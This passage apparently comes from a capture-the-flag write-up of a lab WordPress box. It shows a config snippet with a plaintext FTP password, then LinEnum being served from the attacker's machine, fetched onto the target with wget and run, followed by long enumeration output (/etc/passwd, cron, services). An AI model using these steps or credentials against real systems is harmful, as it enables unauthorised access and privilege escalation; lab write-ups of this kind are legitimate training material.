     /** Sets up WordPress vars and included files. */
     require_once(ABSPATH . 'wp-settings.php');
     
     define('WP_TEMP_DIR', '/opt/bitnami/apps/wordpress/tmp');
     
     
     define('FS_METHOD', 'ftpext');
     define('FTP_BASE', '/opt/bitnami/apps/wordpress/htdocs/');
     define('FTP_USER', 'bitnamiftp');
     define('FTP_PASS', 'inevoL7eAlBeD2b5WszPbZ2gJ971tJZtP0j86NYPyh6Wfz1x8a');
     define('FTP_HOST', '127.0.0.1');
     define('FTP_SSL', false);
.

#### LinEnum

https://null-byte.wonderhowto.com/how-to/use-linenum-identify-potential-privilege-escalation-vectors-0197225/

Download LinEnum

    wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

Mount http server in the folder where you downloaded it

    python3 -m http.server

Download LinEnum.sh on the target machine

    cd /tmp
    wget 192.168.56.107:8000/LinEnum.sh
    
    ls -la
    total 64
    drwxrwxrwt  4 root   root    4096 Sep  8 22:17 .
    drwxr-xr-x 22 root   root    4096 Sep 16  2015 ..
    drwxrwxrwt  2 root   root    4096 Sep  8 20:04 .ICE-unix
    drwxrwxrwt  2 root   root    4096 Sep  8 20:04 .X11-unix
    -rw-r--r--  1 daemon daemon 46631 Sep  8 20:12 LinEnum.sh
    chmod +x LinEnum.sh
    
    ls -la
    total 64
    drwxrwxrwt  4 root   root    4096 Sep  8 22:17 .
    drwxr-xr-x 22 root   root    4096 Sep 16  2015 ..
    drwxrwxrwt  2 root   root    4096 Sep  8 20:04 .ICE-unix
    drwxrwxrwt  2 root   root    4096 Sep  8 20:04 .X11-unix
    -rwxr-xr-x  1 daemon daemon 46631 Sep  8 20:12 LinEnum.sh
    ./LinEnum.sh
    
    #########################################################
    # Local Linux Enumeration & Privilege Escalation Script #
    #########################################################
    # www.rebootuser.com
    # version 0.982
    
    [-] Debug Info
    [+] Thorough tests = Disabled
    
    
    Scan started at:
    Thu Sep  8 22:17:39 UTC 2022
    
    
    ### SYSTEM ##############################################
    [-] Kernel information:
    Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
    
    
    [-] Kernel information (continued):
    Linux version 3.13.0-55-generic (buildd@brownie) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) ) #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015
    
    
    [-] Specific release information:
    DISTRIB_ID=Ubuntu
    DISTRIB_RELEASE=14.04
    DISTRIB_CODENAME=trusty
    DISTRIB_DESCRIPTION="Ubuntu 14.04.2 LTS"
    NAME="Ubuntu"
    VERSION="14.04.2 LTS, Trusty Tahr"
    ID=ubuntu
    ID_LIKE=debian
    PRETTY_NAME="Ubuntu 14.04.2 LTS"
    VERSION_ID="14.04"
    HOME_URL="http://www.ubuntu.com/"
    SUPPORT_URL="http://help.ubuntu.com/"
    BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
    
    
    [-] Hostname:
    linux

    ### USER/GROUP ##########################################
    [-] Current user/group info:
    uid=1(daemon) gid=1(daemon) groups=1(daemon)
    
    
    [-] Users that have previously logged onto the system:
    Username         Port     From             Latest
    root             tty1                      Sat Nov 14 23:32:42 +0000 2015
    bitnamiftp       tty1                      Fri Nov 13 01:15:03 +0000 2015
    robot            tty1                      Fri Nov 13 23:50:42 +0000 2015
    
    
    [-] Who else is logged on:
    22:17:39 up  2:13,  0 users,  load average: 0.00, 0.01, 0.05
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    
    
    [-] Group memberships:
    uid=0(root) gid=0(root) groups=0(root)
    uid=1(daemon) gid=1(daemon) groups=1(daemon)
    uid=2(bin) gid=2(bin) groups=2(bin)
    uid=3(sys) gid=3(sys) groups=3(sys)
    uid=4(sync) gid=65534(nogroup) groups=65534(nogroup)
    uid=5(games) gid=60(games) groups=60(games)
    uid=6(man) gid=12(man) groups=12(man)
    uid=7(lp) gid=7(lp) groups=7(lp)
    uid=8(mail) gid=8(mail) groups=8(mail)
    uid=9(news) gid=9(news) groups=9(news)
    uid=10(uucp) gid=10(uucp) groups=10(uucp)
    uid=13(proxy) gid=13(proxy) groups=13(proxy)
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    uid=34(backup) gid=34(backup) groups=34(backup)
    uid=38(list) gid=38(list) groups=38(list)
    uid=39(irc) gid=39(irc) groups=39(irc)
    uid=41(gnats) gid=41(gnats) groups=41(gnats)
    uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
    uid=100(libuuid) gid=101(libuuid) groups=101(libuuid)
    uid=101(syslog) gid=104(syslog) groups=104(syslog),4(adm)
    uid=102(sshd) gid=65534(nogroup) groups=65534(nogroup)
    uid=103(ftp) gid=106(ftp) groups=106(ftp)
    uid=1000(bitnamiftp) gid=1000(bitnami) groups=1000(bitnami)
    uid=1001(mysql) gid=1001(mysql) groups=1001(mysql)
    uid=999(varnish) gid=999(varnish) groups=999(varnish)
    uid=1002(robot) gid=1002(robot) groups=1002(robot)
    
    
    [-] It looks like we have some admin users:
    uid=101(syslog) gid=104(syslog) groups=104(syslog),4(adm)
    
    
    [-] Contents of /etc/passwd:
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    libuuid:x:100:101::/var/lib/libuuid:
    syslog:x:101:104::/home/syslog:/bin/false
    sshd:x:102:65534::/var/run/sshd:/usr/sbin/nologin
    ftp:x:103:106:ftp daemon,,,:/srv/ftp:/bin/false
    bitnamiftp:x:1000:1000::/opt/bitnami/apps:/bin/bitnami_ftp_false
    mysql:x:1001:1001::/home/mysql:
    varnish:x:999:999::/home/varnish:
    robot:x:1002:1002::/home/robot:
    
    
    [-] Super user account(s):
    root
    
    
    [-] Are permissions on /home directories lax:
    total 12K
    drwxr-xr-x  3 root root 4.0K Nov 13  2015 .
    drwxr-xr-x 22 root root 4.0K Sep 16  2015 ..
    drwxr-xr-x  2 root root 4.0K Nov 13  2015 robot
    
    
    ### ENVIRONMENTAL #######################################
    [-] Environment information:
    LDAPCONF=/opt/bitnami/common/etc/openldap/ldap.conf
    SSL_CERT_FILE=/opt/bitnami/common/openssl/certs/curl-ca-bundle.crt
    CURL_CA_BUNDLE=/opt/bitnami/common/openssl/certs/curl-ca-bundle.crt
    MAGICK_CONFIGURE_PATH=
    GS_LIB=
    OPENSSL_ENGINES=/opt/bitnami/common/lib/engines
    MAGICK_CODER_MODULE_PATH=
    USER=daemon
    FREETDSLOCALES=
    PATH=/opt/bitnami/varnish/bin:/opt/bitnami/sqlite/bin:/opt/bitnami/php/bin:/opt/bitnami/mysql/bin:/opt/bitnami/apache2/bin:/opt/bitnami/common/bin:/sbin:/usr/sbin:/bin:/usr/bin
    PWD=/tmp
    FREETDSCONF=
    MAGICK_HOME=
    SHLVL=1
    HOME=/usr/sbin
    OPENSSL_CONF=/opt/bitnami/common/openssl/openssl.cnf
    _=/usr/bin/env
    
    
    [-] Path information:
    /opt/bitnami/varnish/bin:/opt/bitnami/sqlite/bin:/opt/bitnami/php/bin:/opt/bitnami/mysql/bin:/opt/bitnami/apache2/bin:/opt/bitnami/common/bin:/sbin:/usr/sbin:/bin:/usr/bin
    drwxr-xr-x 2 root root  4096 Sep 16  2015 /bin
    drwxr-xr-x 2 root root  4096 Sep 16  2015 /opt/bitnami/apache2/bin
    drwxr-xr-x 2 root root  4096 Sep 16  2015 /opt/bitnami/common/bin
    drwxr-xr-x 2 root root  4096 Sep 16  2015 /opt/bitnami/mysql/bin
    drwxr-xr-x 2 root root  4096 Sep 16  2015 /opt/bitnami/php/bin
    drwxr-xr-x 2 root root  4096 Sep 16  2015 /opt/bitnami/sqlite/bin
    drwxr-xr-x 2 root root  4096 Sep 16  2015 /opt/bitnami/varnish/bin
    drwxr-xr-x 2 root root  4096 Nov 13  2015 /sbin
    drwxr-xr-x 2 root root 20480 Nov 13  2015 /usr/bin
    drwxr-xr-x 2 root root  4096 Nov 13  2015 /usr/sbin
    
    
    [-] Available shells:
    # /etc/shells: valid login shells
    /bin/sh
    /bin/dash
    /bin/bash
    /bin/rbash
    /usr/bin/screen
    
    /bin/bitnami_ftp_false
    
    
    [-] Current umask value:
    0022
    u=rwx,g=rx,o=rx
    
    
    [-] umask value as specified in /etc/login.defs:
    UMASK           022
    
    
    [-] Password and storage information:
    PASS_MAX_DAYS   99999
    PASS_MIN_DAYS   0
    PASS_WARN_AGE   7
    ENCRYPT_METHOD SHA512

    ### JOBS/TASKS ##########################################
    [-] Cron jobs:
    -rw-r--r-- 1 root root  787 Sep  4 10:45 /etc/crontab
    
    /etc/cron.d:
    total 12
    drwxr-xr-x  2 root root 4096 Jun 24  2015 .
    drwxr-xr-x 77 root root 4096 Sep  8 20:04 ..
    -rw-r--r--  1 root root  102 Feb  9  2013 .placeholder
    
    /etc/cron.daily:
    total 44
    drwxr-xr-x  2 root root  4096 Jun 24  2015 .
    drwxr-xr-x 77 root root  4096 Sep  8 20:04 ..
    -rw-r--r--  1 root root   102 Feb  9  2013 .placeholder
    -rwxr-xr-x  1 root root 15481 Apr 10  2014 apt
    -rwxr-xr-x  1 root root   256 Mar  7  2014 dpkg
    -rwxr-xr-x  1 root root   372 Jan 22  2014 logrotate
    -rwxr-xr-x  1 root root   249 Feb 17  2014 passwd
    -rwxr-xr-x  1 root root   328 Jul 18  2014 upstart
    
    /etc/cron.hourly:
    total 12
    drwxr-xr-x  2 root root 4096 Jun 24  2015 .
    drwxr-xr-x 77 root root 4096 Sep  8 20:04 ..
    -rw-r--r--  1 root root  102 Feb  9  2013 .placeholder
    
    /etc/cron.monthly:
    total 12
    drwxr-xr-x  2 root root 4096 Jun 24  2015 .
    drwxr-xr-x 77 root root 4096 Sep  8 20:04 ..
    -rw-r--r--  1 root root  102 Feb  9  2013 .placeholder
    
    /etc/cron.weekly:
    total 16
    drwxr-xr-x  2 root root 4096 Jun 24  2015 .
    drwxr-xr-x 77 root root 4096 Sep  8 20:04 ..
    -rw-r--r--  1 root root  102 Feb  9  2013 .placeholder
    -rwxr-xr-x  1 root root  427 Apr 16  2014 fstrim
    
    
    [-] Crontab contents:
    # /etc/crontab: system-wide crontab
    # Unlike any other crontab you don't have to run the `crontab'
    # command to install the new version when you edit this file
    # and files in /etc/cron.d. These files also have username fields,
    # that none of the other crontabs do.
    
    SHELL=/bin/sh
    PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
    
    # m h dom mon dow user  command
    17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
    25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
    47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
    52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
    #
    12 * * * * bitnami cd /opt/bitnami/stats && ./agent.bin --run -D
    
    
    ### NETWORKING  ##########################################
    [-] Network and IP info:
    eth0      Link encap:Ethernet  HWaddr 08:00:27:05:3e:ff
    inet addr:192.168.56.105  Bcast:192.168.56.255  Mask:255.255.255.0
    inet6 addr: fe80::a00:27ff:fe05:3eff/64 Scope:Link
    UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
    RX packets:1931 errors:0 dropped:0 overruns:0 frame:0
    TX packets:2692 errors:0 dropped:0 overruns:0 carrier:0
    collisions:0 txqueuelen:1000
    RX bytes:463697 (463.6 KB)  TX bytes:2431976 (2.4 MB)
    Interrupt:19 Base address:0xd020
    
    lo        Link encap:Local Loopback
    inet addr:127.0.0.1  Mask:255.0.0.0
    inet6 addr: ::1/128 Scope:Host
    UP LOOPBACK RUNNING  MTU:65536  Metric:1
    RX packets:712 errors:0 dropped:0 overruns:0 frame:0
    TX packets:712 errors:0 dropped:0 overruns:0 carrier:0
    collisions:0 txqueuelen:0
    RX bytes:64676 (64.6 KB)  TX bytes:64676 (64.6 KB)
    
    
    [-] ARP history:
    ? (192.168.56.100) at 08:00:27:aa:6d:c3 [ether] on eth0
    ? (192.168.56.107) at 08:00:27:6d:dd:e0 [ether] on eth0

    [-] Nameserver(s):
    nameserver 127.0.1.1
    
    
    [-] Listening TCP:
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
    tcp        0      0 127.0.0.1:21            0.0.0.0:*               LISTEN      -
    tcp        0      0 127.0.0.1:2812          0.0.0.0:*               LISTEN      -
    tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
    tcp6       0      0 :::443                  :::*                    LISTEN      -
    tcp6       0      0 :::80                   :::*                    LISTEN      -
    
    
    [-] Listening UDP:
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
    udp        0      0 0.0.0.0:14243           0.0.0.0:*                           -
    udp        0      0 0.0.0.0:68              0.0.0.0:*                           -
    udp6       0      0 :::64171                :::*                                -
    
    
    ### SERVICES #############################################
    [-] Running processes:
    USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
    root         1  0.0  0.2  33240  1300 ?        Ss   20:04   0:00 /sbin/init
    root         2  0.0  0.0      0     0 ?        S    20:04   0:00 [kthreadd]
    root         3  0.0  0.0      0     0 ?        S    20:04   0:00 [ksoftirqd/0]
    root         4  0.0  0.0      0     0 ?        S    20:04   0:00 [kworker/0:0]
    root         5  0.0  0.0      0     0 ?        S<   20:04   0:00 [kworker/0:0H]
    root         6  0.0  0.0      0     0 ?        S    20:04   0:00 [kworker/u2:0]
    root         7  0.0  0.0      0     0 ?        S    20:04   0:00 [rcu_sched]
    root         8  0.0  0.0      0     0 ?        S    20:04   0:01 [rcuos/0]
    root         9  0.0  0.0      0     0 ?        S    20:04   0:00 [rcu_bh]
    root        10  0.0  0.0      0     0 ?        S    20:04   0:00 [rcuob/0]
    root        11  0.0  0.0      0     0 ?        S    20:04   0:00 [migration/0]
    root        12  0.0  0.0      0     0 ?        S    20:04   0:00 [watchdog/0]
    root        13  0.0  0.0      0     0 ?        S<   20:04   0:00 [khelper]
    root        14  0.0  0.0      0     0 ?        S    20:04   0:00 [kdevtmpfs]
    root        15  0.0  0.0      0     0 ?        S<   20:04   0:00 [netns]
    root        16  0.0  0.0      0     0 ?        S<   20:04   0:00 [writeback]
    root        17  0.0  0.0      0     0 ?        S<   20:04   0:00 [kintegrityd]
    root        18  0.0  0.0      0     0 ?        S<   20:04   0:00 [bioset]
    root        19  0.0  0.0      0     0 ?        S<   20:04   0:00 [kworker/u3:0]
    root        20  0.0  0.0      0     0 ?        S<   20:04   0:00 [kblockd]
    root        21  0.0  0.0      0     0 ?        S<   20:04   0:00 [ata_sff]
    root        22  0.0  0.0      0     0 ?        S    20:04   0:00 [khubd]
    root        23  0.0  0.0      0     0 ?        S<   20:04   0:00 [md]
    root        24  0.0  0.0      0     0 ?        S<   20:04   0:00 [devfreq_wq]
    root        25  0.0  0.0      0     0 ?        S    20:04   0:00 [kworker/0:1]
    root        27  0.0  0.0      0     0 ?        S    20:04   0:00 [khungtaskd]
    root        28  0.0  0.0      0     0 ?        S    20:04   0:01 [kswapd0]
    root        29  0.0  0.0      0     0 ?        SN   20:04   0:00 [ksmd]
    root        30  0.0  0.0      0     0 ?        S    20:04   0:00 [fsnotify_mark]
    root        31  0.0  0.0      0     0 ?        S    20:04   0:00 [ecryptfs-kthrea]
    root        32  0.0  0.0      0     0 ?        S<   20:04   0:00 [crypto]
    root        44  0.0  0.0      0     0 ?        S<   20:04   0:00 [kthrotld]
    root        46  0.0  0.0      0     0 ?        S    20:04   0:00 [scsi_eh_0]
    root        47  0.0  0.0      0     0 ?        S    20:04   0:00 [scsi_eh_1]
    root        68  0.0  0.0      0     0 ?        S<   20:04   0:00 [deferwq]
    root        69  0.0  0.0      0     0 ?        S<   20:04   0:00 [charger_manager]
    root        70  0.0  0.0      0     0 ?        S    20:04   0:00 [kworker/u2:4]
    root       114  0.0  0.0      0     0 ?        S<   20:04   0:00 [kpsmoused]
    root       128  0.0  0.0      0     0 ?        S<   20:04   0:00 [kworker/u3:1]
    root       129  0.0  0.0      0     0 ?        S    20:04   0:00 [jbd2/sda1-8]
    root       130  0.0  0.0      0     0 ?        S<   20:04   0:00 [ext4-rsv-conver]
    root       273  0.0  0.1  19472   568 ?        S    20:04   0:00 upstart-udev-bridge --daemon
    root       278  0.0  0.1  49936   512 ?        Ss   20:04   0:00 /lib/systemd/systemd-udevd --daemon
    syslog     334  0.0  0.0 255840   352 ?        Ssl  20:04   0:00 rsyslogd
    root       340  0.0  0.0  15272   316 ?        S    20:04   0:00 upstart-file-bridge --daemon
    root       631  0.0  0.1  10220   800 ?        Ss   20:04   0:00 dhclient -1 -v -pf /run/dhclient.eth0.pid -lf /var/lib/dhcp/dhclient.eth0.leases eth0
    root       749  0.0  0.0  23536     0 ?        Ss   20:04   0:00 /usr/sbin/vsftpd
    root       938  0.0  0.0  15388   188 ?        S    20:04   0:00 upstart-socket-bridge --daemon
    root       965  0.0  0.0  14536    40 tty4     Ss+  20:04   0:00 /sbin/getty -8 38400 tty4
    root       967  0.0  0.0  14536    40 tty5     Ss+  20:04   0:00 /sbin/getty -8 38400 tty5
    root       970  0.0  0.0  14536    40 tty2     Ss+  20:04   0:00 /sbin/getty -8 38400 tty2
    root       971  0.0  0.0  14536    40 tty3     Ss+  20:04   0:00 /sbin/getty -8 38400 tty3
    root       973  0.0  0.0  14536    40 tty6     Ss+  20:04   0:00 /sbin/getty -8 38400 tty6
    root      1001  0.0  0.0  23652   164 ?        Ss   20:04   0:00 cron
    root      1181  0.0  0.0   4440    40 ?        S    20:04   0:00 /bin/sh /opt/bitnami/mysql/bin/mysqld_safe --defaults-file=/opt/bitnami/mysql/my.cnf --port=3306 --socket=/opt/bitnami/mysql/tmp/mysql.sock --datadir=/opt/bitnami/mysql/data --log-error=/opt/bitnami/mysql/data/mysqld.log --pid-file=/opt/bitnami/mysql/data/mysqld.pid --lower-case-table-names=1
    mysql     1454  0.0 28.6 1305632 143756 ?      Sl   20:04   0:06 /opt/bitnami/mysql/bin/mysqld.bin --defaults-file=/opt/bitnami/mysql/my.cnf --basedir=/opt/bitnami/mysql --datadir=/opt/bitnami/mysql/data --plugin-dir=/opt/bitnami/mysql/lib/plugin --user=mysql --lower-case-table-names=1 --log-error=/opt/bitnami/mysql/data/mysqld.log --pid-file=/opt/bitnami/mysql/data/mysqld.pid --socket=/opt/bitnami/mysql/tmp/mysql.sock --port=3306
    root      1517  0.0  1.0 258616  5020 ?        Ss   20:04   0:00 php-fpm: master process (/opt/bitnami/php/etc/php-fpm.conf)
    daemon    1519  0.0  8.2 267104 41368 ?        S    20:04   0:01 php-fpm: pool wordpress
    root      1524  0.0  4.0 207948 20092 ?        Ss   20:04   0:00 /opt/bitnami/apache2/bin/httpd.bin -f /opt/bitnami/apache2/conf/httpd.conf -DDISABLE_BANNER
    daemon    1526  0.0  2.3 987396 11896 ?        Sl   20:04   0:03 /opt/bitnami/apache2/bin/httpd.bin -f /opt/bitnami/apache2/conf/httpd.conf -DDISABLE_BANNER
    daemon    1527  0.0  1.4 970076  7400 ?        Sl   20:04   0:03 /opt/bitnami/apache2/bin/httpd.bin -f /opt/bitnami/apache2/conf/httpd.conf -DDISABLE_BANNER
    daemon    1528  0.0  1.8 986516  9248 ?        Sl   20:04   0:07 /opt/bitnami/apache2/bin/httpd.bin -f /opt/bitnami/apache2/conf/httpd.conf -DDISABLE_BANNER
    root      1671  0.0  0.2 104328  1228 ?        Sl   20:05   0:00 /usr/bin/monit -c /etc/monit/monitrc
    root      1697  0.0  0.1  14536   704 tty1     Ss+  20:05   0:00 /sbin/getty -8 38400 tty1
    daemon    1717  0.0  2.5 986496 12736 ?        Sl   20:09   0:03 /opt/bitnami/apache2/bin/httpd.bin -f /opt/bitnami/apache2/conf/httpd.conf -DDISABLE_BANNER
    daemon    1746  0.0  6.6 266228 33520 ?        S    20:09   0:00 php-fpm: pool wordpress
    root      2037  0.0  0.0      0     0 ?        S    21:51   0:00 [kauditd]
    daemon    2207  0.0  6.3 264640 32092 ?        S    22:05   0:00 php-fpm: pool wordpress
    daemon    2375  0.0  0.1   4440   656 ?        S    22:17   0:00 sh -c ./LinEnum.sh
    daemon    2376  0.0  0.4  18952  2452 ?        S    22:17   0:00 /bin/bash ./LinEnum.sh
    daemon    2377  0.0  0.3  18980  1984 ?        S    22:17   0:00 /bin/bash ./LinEnum.sh
    daemon    2378  0.0  0.0   4344   360 ?        S    22:17   0:00 tee -a
    root      2550  0.0  0.1  49932   616 ?        S    22:17   0:00 /lib/systemd/systemd-udevd --daemon
    daemon    2562  0.0  0.3  18980  1684 ?        S    22:17   0:00 /bin/bash ./LinEnum.sh
    daemon    2563  0.0  0.2  15564  1164 ?        R    22:17   0:00 ps aux
    
    
    [-] Process binaries and associated permissions (from above list):
    -rwxr-xr-x 1 root root  1021112 Oct  7  2014 /bin/bash
    lrwxrwxrwx 1 root root        4 Feb 19  2014 /bin/sh -> dash
    -rwxr-xr-x 1 root root   239896 Apr 15  2015 /lib/systemd/systemd-udevd
    -rwxr-xr-x 1 root root   678528 Sep  7  2015 /opt/bitnami/apache2/bin/httpd.bin
    -rwxr-xr-x 1 root root 13966352 Sep  7  2015 /opt/bitnami/mysql/bin/mysqld.bin
    -rwxr-xr-x 2 root root    32112 Feb 12  2015 /sbin/getty
    -rwxr-xr-x 1 root root   265848 Jul 18  2014 /sbin/init
    -rwxr-xr-x 1 root root   534728 Nov 17  2013 /usr/bin/monit
    -rwxr-xr-x 1 root root   164072 May  1  2014 /usr/sbin/vsftpd
    
    
    [-] /etc/init.d/ binary permissions:
    total 148
    drwxr-xr-x  2 root root 4096 Sep 16  2015 .
    drwxr-xr-x 77 root root 4096 Sep  8 20:04 ..
    -rw-r--r--  1 root root    0 Jun 24  2015 .legacy-bootordering
    -rw-r--r--  1 root root 2427 Mar 13  2014 README
    -rwxr-xr-x  1 root root 1333 Sep 16  2015 bitnami
    -rwxr-xr-x  1 root root 1919 Jan 18  2011 console-setup
    lrwxrwxrwx  1 root root   21 Feb  9  2013 cron -> /lib/init/upstart-job
    -rwxr-xr-x  1 root root 1105 May 13  2015 grub-common
    -rwxr-xr-x  1 root root 1329 Mar 13  2014 halt
    -rwxr-xr-x  1 root root 1293 Mar 13  2014 killprocs
    -rwxr-xr-x  1 root root 1990 Jan 22  2013 kmod
    -rwxr-xr-x  1 root root 2664 Nov 16  2013 monit
    -rwxr-xr-x  1 root root 4479 Mar 20  2014 networking
    -rwxr-xr-x  1 root root 1346 Mar 13  2015 ondemand
    -rwxr-xr-x  1 root root 1192 May 27  2013 procps
    -rwxr-xr-x  1 root root 6120 Mar 13  2014 rc
    -rwxr-xr-x  1 root root  782 Mar 13  2014 rc.local
    -rwxr-xr-x  1 root root  117 Mar 13  2014 rcS
    -rwxr-xr-x  1 root root  639 Mar 13  2014 reboot
    -rwxr-xr-x  1 root root 2918 Jun 13  2014 resolvconf
    -rwxr-xr-x  1 root root 4395 Apr 17  2014 rsync
    -rwxr-xr-x  1 root root 2913 Dec  4  2013 rsyslog
    -rwxr-xr-x  1 root root 1226 Jul 22  2013 screen-cleanup
    -rwxr-xr-x  1 root root 3920 Mar 13  2014 sendsigs
    -rwxr-xr-x  1 root root  590 Mar 13  2014 single
    -rw-r--r--  1 root root 4290 Mar 13  2014 skeleton
    -rwxr-xr-x  1 root root 4077 May  2  2014 ssh
    -rwxr-xr-x  1 root root  731 Feb  5  2014 sudo
    -rwxr-xr-x  1 root root 6173 Apr 14  2014 udev
    -rwxr-xr-x  1 root root 2721 Mar 13  2014 umountfs
    -rwxr-xr-x  1 root root 2260 Mar 13  2014 umountnfs.sh
    -rwxr-xr-x  1 root root 1872 Mar 13  2014 umountroot
    -rwxr-xr-x  1 root root 3111 Mar 13  2014 urandom
    -rwxr-xr-x  1 root root 2666 Oct  8  2014 x11-common
    
    
    [-] /etc/init/ config file permissions:
    total 316
    drwxr-xr-x  2 root root 4096 Nov 13  2015 .
    drwxr-xr-x 77 root root 4096 Sep  8 20:04 ..
    -rw-r--r--  1 root root  328 Feb 22  2014 bootmisc.sh.conf
    -rw-r--r--  1 root root  232 Feb 22  2014 checkfs.sh.conf
    -rw-r--r--  1 root root  253 Feb 22  2014 checkroot-bootclean.sh.conf
    -rw-r--r--  1 root root  307 Feb 22  2014 checkroot.sh.conf
    -rw-r--r--  1 root root  250 Oct  9  2012 console-font.conf
    -rw-r--r--  1 root root  509 Dec 21  2010 console-setup.conf
    -rw-r--r--  1 root root  266 Apr 11  2014 console.conf
    -rw-r--r--  1 root root 1122 Apr 11  2014 container-detect.conf
    -rw-r--r--  1 root root  356 Apr 11  2014 control-alt-delete.conf
    -rw-r--r--  1 root root  297 Feb  9  2013 cron.conf
    -rw-r--r--  1 root root  273 Nov 19  2010 dmesg.conf
    -rw-r--r--  1 root root 1377 Apr 11  2014 failsafe.conf
    -rw-r--r--  1 root root  267 Apr 11  2014 flush-early-job-log.conf
    -rw-r--r--  1 root root  284 Jul 23  2013 hostname.conf
    -rw-r--r--  1 root root  444 Apr 16  2014 hwclock-save.conf
    -rw-r--r--  1 root root  557 Apr 16  2014 hwclock.conf
    -rw-r--r--  1 root root  689 Apr 10  2014 kmod.conf
    -rw-r--r--  1 root root  268 Feb 22  2014 mountall-bootclean.sh.conf
    -rw-r--r--  1 root root  349 Feb 22  2014 mountall-net.conf
    -rw-r--r--  1 root root  261 Feb 22  2014 mountall-reboot.conf
    -rw-r--r--  1 root root 1201 Feb 22  2014 mountall-shell.conf
    -rw-r--r--  1 root root 1232 Feb 22  2014 mountall.conf
    -rw-r--r--  1 root root  311 Feb 22  2014 mountall.sh.conf
    -rw-r--r--  1 root root  327 Feb 22  2014 mountdevsubfs.sh.conf
    -rw-r--r--  1 root root  405 Feb 22  2014 mounted-debugfs.conf
    -rw-r--r--  1 root root  730 Feb 22  2014 mounted-dev.conf
    -rw-r--r--  1 root root  480 Feb 22  2014 mounted-proc.conf
    -rw-r--r--  1 root root  618 Feb 22  2014 mounted-run.conf
    -rw-r--r--  1 root root 1890 Feb 22  2014 mounted-tmp.conf
    -rw-r--r--  1 root root  903 Feb 22  2014 mounted-var.conf
    -rw-r--r--  1 root root  323 Feb 22  2014 mountkernfs.sh.conf
    -rw-r--r--  1 root root  249 Feb 22  2014 mountnfs-bootclean.sh.conf
    -rw-r--r--  1 root root  313 Feb 22  2014 mountnfs.sh.conf
    -rw-r--r--  1 root root  238 Feb 22  2014 mtab.sh.conf
    -rw-r--r--  1 root root  530 Mar 20  2014 network-interface-container.conf
    -rw-r--r--  1 root root 1756 May  4  2013 network-interface-security.conf
    -rw-r--r--  1 root root 1109 May  8  2014 network-interface.conf
    -rw-r--r--  1 root root 2493 Mar 20  2014 networking.conf
    -rw-r--r--  1 root root  534 Feb 17  2014 passwd.conf
    -rw-r--r--  1 root root  326 Mar 13  2014 plymouth-log.conf
    -rw-r--r--  1 root root  675 Mar 13  2014 plymouth-ready.conf
    -rw-r--r--  1 root root  778 Mar 13  2014 plymouth-shutdown.conf
    -rw-r--r--  1 root root  899 Mar 13  2014 plymouth-splash.conf
    -rw-r--r--  1 root root  796 Mar 13  2014 plymouth-stop.conf
    -rw-r--r--  1 root root  421 Apr 11  2014 plymouth-upstart-bridge.conf
    -rw-r--r--  1 root root  519 Mar 13  2014 plymouth.conf
    -rw-r--r--  1 root root  363 Jan  6  2014 procps.conf
    -rw-r--r--  1 root root 1543 Apr 11  2014 rc-sysinit.conf
    -rw-r--r--  1 root root  661 Apr 11  2014 rc.conf
    -rw-r--r--  1 root root  683 Apr 11  2014 rcS.conf
    -rw-r--r--  1 root root  457 Dec 13  2012 resolvconf.conf
    -rw-r--r--  1 root root  426 Apr 18  2013 rsyslog.conf
    -rw-r--r--  1 root root  230 Mar 18  2011 setvtrgb.conf
    -rw-r--r--  1 root root  277 Apr 11  2014 shutdown.conf
    -rw-r--r--  1 root root  641 May  2  2014 ssh.conf.back
    -rw-r--r--  1 root root  711 Mar 13  2014 startpar-bridge.conf
    -rw-r--r--  1 root root  348 Apr 11  2014 tty1.conf
    -rw-r--r--  1 root root  333 Apr 11  2014 tty2.conf
    -rw-r--r--  1 root root  333 Apr 11  2014 tty3.conf
    -rw-r--r--  1 root root  333 Apr 11  2014 tty4.conf
    -rw-r--r--  1 root root  232 Apr 11  2014 tty5.conf
    -rw-r--r--  1 root root  232 Apr 11  2014 tty6.conf
    -rw-r--r--  1 root root  645 Sep 12  2014 udev-fallback-graphics.conf
    -rw-r--r--  1 root root  768 Apr 14  2014 udev-finish.conf
